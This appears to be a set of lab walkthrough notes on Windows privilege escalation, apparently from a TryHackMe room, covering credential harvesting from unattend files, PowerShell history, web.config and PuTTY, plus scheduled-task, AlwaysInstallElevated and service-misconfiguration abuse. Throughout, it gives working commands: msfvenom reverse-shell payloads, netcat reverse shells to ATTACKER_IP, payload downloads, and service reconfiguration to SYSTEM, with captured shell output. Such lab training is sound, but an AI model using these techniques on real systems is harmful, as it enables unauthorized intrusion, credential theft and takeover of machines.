


# 1. Usual Checks

## a. Unattended Windows Installations

When installing Windows on a large number of hosts, administrators may use Windows Deployment Services, which allows for a single operating system image to be deployed to several hosts through the network. These kinds of installations are referred to as unattended installations as they don't require user interaction. Such installations require the use of an administrator account to perform the initial setup, which might end up being stored in the machine in the following locations:

    C:\Unattend.xml
    C:\Windows\Panther\Unattend.xml
    C:\Windows\Panther\Unattend\Unattend.xml
    C:\Windows\system32\sysprep.inf
    C:\Windows\system32\sysprep\sysprep.xml

As part of these files, you might encounter credentials:

    <Credentials>
    	<Username>Administrator</Username>
    	<Domain>thm.local</Domain>
    	<Password>MyPassword123</Password>
    </Credentials>

## b. Powershell History

Whenever a user runs a command using Powershell, it gets stored into a file that keeps a memory of past commands. This is useful for repeating commands you have used before quickly. If a user runs a command that includes a password directly as part of the Powershell command line, it can later be retrieved by using the following command from a cmd.exe prompt:

`type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`

Note: The command above will only work from cmd.exe, as Powershell won't recognize     `%userprofile%` as an environment variable. To read the file from Powershell, you'd have to replace     `%userprofile%` with `$Env:userprofile.` 

## c. Saved Windows Credentials

Windows allows us to use other users' credentials. This function also gives the option to save these credentials on the system. The command below will list saved credentials:

`cmdkey /list`
While you can't see the actual passwords, if you notice any credentials worth trying, you can use them with the runas command and the /savecred option, as seen below.

`runas /savecred /user:admin cmd.exe`

## d. IIS Configuration

Internet Information Services (IIS) is the default web server on Windows installations. The configuration of websites on IIS is stored in a file called web.config and can store passwords for databases or configured authentication mechanisms. Depending on the installed version of IIS, we can find web.config in one of the following locations:

    C:\inetpub\wwwroot\web.config
    C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
Here is a quick way to find database connection strings on the file:

`type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString`

## e. Retrieve Credentials from Software: PuTTY

PuTTY is an SSH client commonly found on Windows systems. Instead of having to specify a connection's parameters every single time, users can store sessions where the IP, user and other configurations can be stored for later use. While PuTTY won't allow users to store their SSH password, it will store proxy configurations that include cleartext authentication credentials.

To retrieve the stored proxy credentials, you can search under the following registry key for ProxyPassword with the following command:

`reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
`

Note: Simon Tatham is the creator of PuTTY (and his name is part of the path), not the username for which we are retrieving the password. The stored proxy username should also be visible after running the command above.

Just as putty stores credentials, any software that stores passwords, including browsers, email clients, FTP clients, SSH clients, VNC software and others, will have methods to recover any passwords the user has saved.

# 2. Other Quick Wins

## a. Scheduled Tasks

Looking into scheduled tasks on the target system, you may see a scheduled task that either lost its binary or it's using a binary you can modify.

Scheduled tasks can be listed from the command line using the **schtasks** command without any options. To retrieve detailed information about any of the services, you can use a command like the following one:

```bash
C:\> schtasks /query /tn vulntask /fo list /v
Folder: \
HostName:                             THM-PC1
TaskName:                             \vulntask
Task To Run:                          C:\tasks\schtask.bat
Run As User:                          taskusr1
```
You will get lots of information about the task, but what matters for us is the "Task to Run" parameter which indicates what gets executed by the scheduled task, and the "Run As User" parameter, which shows the user that will be used to execute the task.

If our current user can modify or overwrite the "Task to Run" executable, we can control what gets executed by the taskusr1 user, resulting in a simple privilege escalation. To check the file permissions on the executable, we use **icacls**:

```bash
C:\> icacls c:\tasks\schtask.bat
c:\tasks\schtask.bat NT AUTHORITY\SYSTEM:(I)(F)
                    BUILTIN\Administrators:(I)(F)
                    BUILTIN\Users:(I)(F)
```

As can be seen in the result, the BUILTIN\Users group has full access (F) over the task's binary. This means we can modify the .bat file and insert any payload we like. For your convenience, **nc64.exe** can be found on **C:\tools**. Let's change the bat file to spawn a reverse shell:

Command Prompt
`C:\> echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
`

We then start a listener on the attacker machine on the same port we indicated on our reverse shell:

`nc -lvp 4444
`

The next time the scheduled task runs, you should receive the reverse shell with taskusr1 privileges. While you probably wouldn't be able to start the task in a real scenario and would have to wait for the scheduled task to trigger, we have provided your user with permissions to start the task manually to save you some time. We can run the task with the following command:

Command Prompt
`C:\> schtasks /run /tn vulntask`

And you will receive the reverse shell with taskusr1 privileges as expected:

    user@attackerpc$ nc -lvp 4444
    Listening on 0.0.0.0 4444
    Connection received on 10.10.175.90 50649
    Microsoft Windows [Version 10.0.17763.1821]
    (c) 2018 Microsoft Corporation. All rights reserved.
    
    C:\Windows\system32>whoami
    wprivesc1\taskusr1

Go to taskusr1 desktop to retrieve a flag. Don't forget to input the flag at the end of this task.

## b. AlwaysInstallElevated

Windows installer files (also known as .msi files) are used to install applications on the system. They usually run with the privilege level of the user that starts it. However, these can be configured to run with higher privileges from any user account (even unprivileged ones). This could potentially allow us to generate a malicious MSI file that would run with admin privileges.

Note: The AlwaysInstallElevated method won't work on this room's machine and it's included as information only.

This method requires two registry values to be set. You can query these from the command line using the commands below.

Command Prompt
`C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer`
`C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer`

To be able to exploit this vulnerability, both should be set. Otherwise, exploitation will not be possible. If these are set, you can generate a malicious .msi file using msfvenom, as seen below:
`
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi`

As this is a reverse shell, you should also run the Metasploit Handler module configured accordingly. Once you have transferred the file you have created, you can run the installer with the command below and receive the reverse shell:

Command Prompt
`C:\> msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi`

# Abusing Service Misconfigurations
## Windows Services

Windows services are managed by the **Service Control Manager (SCM)**. The SCM is a process in charge of managing the state of services as needed, checking the current status of any given service and generally providing a way to configure services.

Each service on a Windows machine will have an associated executable which will be run by the SCM whenever a service is started. It is important to note that service executables implement special functions to be able to communicate with the SCM, and therefore not any executable can be started as a service successfully. Each service also specifies the user account under which the service will run.

To better understand the structure of a service, let's check the apphostsvc service configuration with the `sc qc` command:


Command Prompt

```bash
C:\> sc qc apphostsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: apphostsvc
        TYPE               : 20  WIN32_SHARE_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Windows\system32\svchost.exe -k apphost
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Application Host Helper Service
        DEPENDENCIES       :
        SERVICE_START_NAME : localSystem

        
```

Here we can see that the associated executable is specified through the **BINARY_PATH_NAME** parameter, and the account used to run the service is shown on the **SERVICE_START_NAME** parameter.

Services have a Discretionary Access Control List (DACL), which indicates who has permission to start, stop, pause, query status, query configuration, or reconfigure the service, amongst other privileges. The DACL can be seen from Process Hacker (available on your machine's desktop):




All of the services configurations are stored on the registry under `HKLM\SYSTEM\CurrentControlSet\Services\`:



A subkey exists for every service in the system. Again, we can see the associated executable on the **ImagePath** value and the account used to start the service on the **ObjectName** value. If a DACL has been configured for the service, it will be stored in a subkey called **Security**. As you have guessed by now, only administrators can modify such registry entries by default.


## Insecure Permissions on Service Executable

If the executable associated with a service has weak permissions that allow an attacker to modify or replace it, the attacker can gain the privileges of the service's account trivially.

To understand how this works, let's look at a vulnerability found on Splinterware System Scheduler. To start, we will query the service configuration using `sc`:


Command Prompt

C:\> sc qc WindowsScheduler
[SC] QueryServiceConfig SUCCESS

```bash
SERVICE_NAME: windowsscheduler
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 0   IGNORE
        BINARY_PATH_NAME   : C:\PROGRA~2\SYSTEM~1\WService.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : System Scheduler Service
        DEPENDENCIES       :
        SERVICE_START_NAME : .\svcuser1

```

We can see that the service installed by the vulnerable software runs as svcuser1 and the executable associated with the service is in` C:\Progra~2\System~1\WService.exe`. We then proceed to check the permissions on the executable:

```bash
C:\Users\thm-unpriv>icacls C:\PROGRA~2\SYSTEM~1\WService.exe
C:\PROGRA~2\SYSTEM~1\WService.exe Everyone:(I)(M)
                                  NT AUTHORITY\SYSTEM:(I)(F)
                                  BUILTIN\Administrators:(I)(F)
                                  BUILTIN\Users:(I)(RX)
                                  APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                                  APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)

Successfully processed 1 files; Failed processing 0 files
```

And here we have something interesting. The Everyone group has modify permissions (M) on the service's executable. This means we can simply overwrite it with any payload of our preference, and the service will execute it with the privileges of the configured user account.

Let's generate an exe-service payload using msfvenom and serve it through a python webserver:

```bash
user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe

user@attackerpc$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

```
We can then pull the payload from Powershell with the following command:

`wget http://ATTACKER_IP:8000/rev-svc.exe -O rev-svc.exe`

Once the payload is in the Windows server, we proceed to replace the service executable with our payload. Since we need another user to execute our payload, we'll want to grant full permissions to the Everyone group as well:


```bash
Command Prompt

C:\> cd C:\PROGRA~2\SYSTEM~1\

C:\PROGRA~2\SYSTEM~1> move WService.exe WService.exe.bkp
        1 file(s) moved.

C:\PROGRA~2\SYSTEM~1> move C:\Users\thm-unpriv\rev-svc.exe WService.exe
        1 file(s) moved.

C:\PROGRA~2\SYSTEM~1> icacls WService.exe /grant Everyone:F
        Successfully processed 1 files.
```

We start a reverse listener on our attacker machine:

`user@attackerpc$ nc -lvp 4445
`

And finally, restart the service. While in a normal scenario, you would likely have to wait for a service restart, you have been assigned privileges to restart the service yourself to save you some time. Use the following commands from a cmd.exe command prompt:

Command Prompt
```bash

C:\> sc stop windowsscheduler
C:\> sc start windowsscheduler
```

Note: PowerShell has **sc** as an alias to **Set-Content**, therefore you need to use **sc.exe** in order to control services with PowerShell this way.

As a result, you'll get a reverse shell with svcusr1 privileges:

```bash
user@attackerpc$ nc -lvp 4445
Listening on 0.0.0.0 4445
Connection received on 10.10.175.90 50649
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
wprivesc1\svcusr1
```

## Unquoted Service Paths

When we can't directly write into service executables as before, there might still be a chance to force a service into running arbitrary executables by using a rather obscure feature.

When working with Windows services, a very particular behaviour occurs when the service is configured to point to an "unquoted" executable. By unquoted, we mean that the path of the associated executable isn't properly quoted to account for spaces on the command.

As an example, let's look at the difference between two services (these services are used as examples only and might not be available in your machine). The first service will use a proper quotation so that the SCM knows without a doubt that it has to execute the binary file pointed by **"C:\Program Files\RealVNC\VNC Server\vncserver.exe"**, followed by the given parameters:

```

C:\> sc qc "vncserver"
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: vncserver
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 0   IGNORE
        BINARY_PATH_NAME   : "C:\Program Files\RealVNC\VNC Server\vncserver.exe" -service
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : VNC Server
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```        

**Remember: PowerShell has 'sc' as an alias to 'Set-Content', therefore you need to use 'sc.exe' to control services if you are in a PowerShell prompt.**

Now let's look at another service without proper quotation:

Command Prompt:

```
C:\> sc qc "disk sorter enterprise"
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: disk sorter enterprise
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 0   IGNORE
        BINARY_PATH_NAME   : C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Disk Sorter Enterprise
        DEPENDENCIES       :
        SERVICE_START_NAME : .\svcusr2
```

When the SCM tries to execute the associated binary, a problem arises. Since there are spaces on the name of the "Disk Sorter Enterprise" folder, the command becomes ambiguous, and the SCM doesn't know which of the following you are trying to execute:

| Command  | Argument 1 | Argument 2 |
| ------------ | ------------ | ------------ | 
|C:\MyPrograms\Disk.exe   | Sorter  |  Enterprise\bin\disksrs.exe |
|C:\MyPrograms\Disk Sorter.exe |  Enterprise\bin\disksrs.exe |   |
|C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe	|	|	|	|

This has to do with how the command prompt parses a command. Usually, when you send a command, spaces are used as argument separators unless they are part of a quoted string. This means the "right" interpretation of the unquoted command would be to execute **C:\\MyPrograms\\Disk.exe** and take the rest as arguments.

Instead of failing as it probably should, SCM tries to help the user and starts searching for each of the binaries in the order shown in the table:

1. First, search for **C:\\MyPrograms\\Disk.exe**. If it exists, the service will run this executable.
2. If the latter doesn't exist, it will then search for** C:\\MyPrograms\\Disk Sorter.exe**. If it exists, the service will run this executable.
3. If the latter doesn't exist, it will then search for **C:\\MyPrograms\\Disk Sorter Enterprise\\bin\\disksrs.exe**. This option is expected to succeed and will typically be run in a default installation.

From this behaviour, the problem becomes evident. If an attacker creates any of the executables that are searched for before the expected service executable, they can force the service to run an arbitrary executable.

While this sounds trivial, most of the service executables will be installed under **C:\Program Files ** or** C:\Program Files (x86) **by default, which isn't writable by unprivileged users. This prevents any vulnerable service from being exploited. There are exceptions to this rule: - Some installers change the permissions on the installed folders, making the services vulnerable. - An administrator might decide to install the service binaries in a non-default path. If such a path is world-writable, the vulnerability can be exploited.

In our case, the Administrator installed the Disk Sorter binaries under **c:\MyProgram**s. By default, this inherits the permissions of the **C:\ ** directory, which allows any user to create files and folders in it. We can check this using **icacls**:

Command Prompt:

    C:\>icacls c:\MyPrograms
    c:\MyPrograms NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
                  BUILTIN\Administrators:(I)(OI)(CI)(F)
                  BUILTIN\Users:(I)(OI)(CI)(RX)
                  BUILTIN\Users:(I)(CI)(AD)
                  BUILTIN\Users:(I)(CI)(WD)
                  CREATOR OWNER:(I)(OI)(CI)(IO)(F)
    
    Successfully processed 1 files; Failed processing 0 files
      

The **BUILTIN\\Users** group has **AD** and **WD** privileges, allowing the user to create subdirectories and files, respectively.

The process of creating an exe-service payload with msfvenom and transferring it to the target host is the same as before, so feel free to create the following payload and upload it to the server as before. We will also start a listener to receive the reverse shell when it gets executed:

    user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4446 -f exe-service -o rev-svc2.exe
    
    user@attackerpc$ nc -lvp 4446

Once the payload is in the server, move it to any of the locations where hijacking might occur. In this case, we will be moving our payload to **C:\MyPrograms\Disk.exe**. We will also grant Everyone full permissions on the file to make sure it can be executed by the service:
        
Command Prompt:
```bash
C:\> move C:\Users\thm-unpriv\rev-svc2.exe C:\MyPrograms\Disk.exe

C:\> icacls C:\MyPrograms\Disk.exe /grant Everyone:F
        Successfully processed 1 files.
```

Once the service gets restarted, your payload should execute:

```bash
C:\> sc stop "disk sorter enterprise"
C:\> sc start "disk sorter enterprise"
```

As a result, you'll get a reverse shell with svcusr2 privileges:

```bash
user@attackerpc$ nc -lvp 4446
Listening on 0.0.0.0 4446
Connection received on 10.10.175.90 50650
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
wprivesc1\svcusr2
```

## Insecure Service Permissions
        
You might still have a slight chance of taking advantage of a service if the service's executable DACL is well configured, and the service's binary path is rightly quoted. Should the service DACL (not the service's executable DACL) allow you to modify the configuration of a service, you will be able to reconfigure the service. This will allow you to point to any executable you need and run it with any account you prefer, including SYSTEM itself.

To check for a service DACL from the command line, you can use [Accesschk](https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk "Accesschk") from the Sysinternals suite. For your convenience, a copy is available at **C:\\tools**. The command to check for the thmservice service DACL is:

```bash
C:\tools\AccessChk> accesschk64.exe -qlc thmservice
  [0] ACCESS_ALLOWED_ACE_TYPE: NT AUTHORITY\SYSTEM
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_PAUSE_CONTINUE
        SERVICE_START
        SERVICE_STOP
        SERVICE_USER_DEFINED_CONTROL
        READ_CONTROL
  [4] ACCESS_ALLOWED_ACE_TYPE: BUILTIN\Users
        SERVICE_ALL_ACCESS
```
Here we can see that the **BUILTIN\\Users** group has the SERVICE_ALL_ACCESS permission, which means any user can reconfigure the service.

Before changing the service, let's build another exe-service reverse shell and start a listener for it on the attacker's machine:

```bash
user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4447 -f exe-service -o rev-svc3.exe

user@attackerpc$ nc -lvp 4447
```

We will then transfer the reverse shell executable to the target machine and store it in **C:\Users\thm-unpriv\rev-svc3.exe.** Feel free to use wget to transfer your executable and move it to the desired location. Remember to grant permissions to Everyone to execute your payload:

    C:\> icacls C:\Users\thm-unpriv\rev-svc3.exe /grant Everyone:F

To change the service's associated executable and account, we can use the following command (mind the spaces after the equal signs when using sc.exe):

	C:\> sc config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem

Notice we can use any account to run the service. We chose LocalSystem as it is the highest privileged account available. To trigger our payload, all that rests is restarting the service:

	C:\> sc stop THMService
	C:\> sc start THMService
	
And we will receive a shell back in our attacker's machine with SYSTEM privileges:

	user@attackerpc$ nc -lvp 4447
	Listening on 0.0.0.0 4447
	Connection received on 10.10.175.90 50650
	Microsoft Windows [Version 10.0.17763.1821]
	(c) 2018 Microsoft Corporation. All rights reserved.

	C:\Windows\system32>whoami
	NT AUTHORITY\SYSTEM
	


        

        
